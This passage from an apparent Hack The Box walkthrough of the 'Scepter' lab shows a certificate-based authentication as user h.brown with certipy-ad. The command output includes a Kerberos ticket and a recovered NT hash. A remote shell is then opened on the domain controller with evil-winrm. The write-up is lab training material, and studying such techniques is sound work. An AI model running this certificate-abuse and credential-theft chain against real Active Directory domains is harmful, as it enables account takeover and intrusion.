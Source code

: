 Step 4: Authentication as h.brown:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ export KRB5CCNAME=h.brown.ccache 

```

Then we can get the shell as `h.brown` by using `evil-winrm`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ evil-winrm -i dc01.scepter.htb -u 'h.brown' -r scepter.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> 

```

# Bloodhound by h.brown